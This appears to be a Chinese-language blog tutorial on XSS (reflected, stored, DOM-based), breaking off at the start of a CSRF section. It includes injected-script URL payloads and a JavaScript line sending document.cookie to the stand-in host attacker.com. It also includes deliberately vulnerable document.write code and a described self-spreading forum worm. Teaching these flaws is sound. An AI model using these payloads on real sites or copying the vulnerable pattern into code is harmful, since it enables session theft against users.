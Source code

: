 ```yaml
---
title: xss和csrf
date: 2018-07-09 11:02:34
tags: 浏览器
---
```


# xss

> cross site scripting 的缩写，即跨站脚本攻击（为了不与 css 混淆）

- 主要分为三类，反射型、保存型和基于 dom 的 xss 攻击。这些漏洞的基本原理都一样，但是确定和利用漏洞方面又存在很大差异。

## 反射型

- 如果一个 web 程序可以动态的显示用户的错误信息，就有可能产生反射型漏洞
- 显著特征是应用程序没有进行任何过滤和净化措施

### 案例

- 如果一个网站的错误消息是这样显示的，www.xxx.com/error.php?message=sorry,an error occurred，然后服务器根据得到的 message，不进行过滤，复制到错误页面的模板<p>sorry,an error occurred</p>，返回给用户
- www.xxx.com/error.php?message=<script>alert(1)</script>，当用户打开错误页面的时候，就会出现<p><script>alert(1)</script></p>，弹出一个消息框

- 当然攻击者不会很傻的只 alert 一些消息，通常 xss 都会伴随会话劫持，截获通过验证的会话令牌。
- 截获用户的会话后，就可以访问该用户授权访问的所有数据和功能
- 比如攻击构造这样一个 url，message 信息如下

```javascript
let i = new Image();
i.src = "http://attacker.com?cookie=" + document.cookie;
```

- 由于浏览器的同源策略，直接向 attacker.com 发送 cookie 是无法获得 www.xxx.com 的 cookie，但是 img，iframe，scipr 标签可以跨域，这就是该漏洞被成为跨站脚本的原因。

## 保存型

- 脚本通常保存在后端数据库，不经过过滤就存储并且显示给用户
- 与反射性的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者访问含有恶意代码的数据，恶意代码执行
- 与反射型不同的是，保存型不需要一个专门设计的 url 来接受 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过也可以用保存型的漏洞来获取用户 cookie 劫持。
- 如果社交论坛存在保存型的 xss 漏洞，黑客将自己的个人信息一栏修改成恶意的 js 代码，该代码实现两个功能，首先受害者先加自己为好友，然后修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行恶意脚本，然后可怕的“蠕虫”就开始了

## 基于 dom 的 xss 漏洞

- 前两种 xss 漏洞，都表现为一种特殊的模式，就是应用程序提取数据并返回给受害者。而基于 dom 的 xss 不具有这种特点，攻击者是借助于 javascript 来展开攻击的

## 案例

```javascript
let url = document.location;
let message = /message=(.+)$/.exec(url)[1];
document.write(message);
// js脚本中这样写，如果攻击者给受害者发送www.xxx.com/error.php?message=<script>alert(1)</script>，也可以展开xss漏洞攻击
```

- 所以写 js 的前端同学注意了，万一写出了有漏洞的代码，这锅得自己背。

# csrf

> cross site request forgery 的缩写，即跨站脚本请求伪造
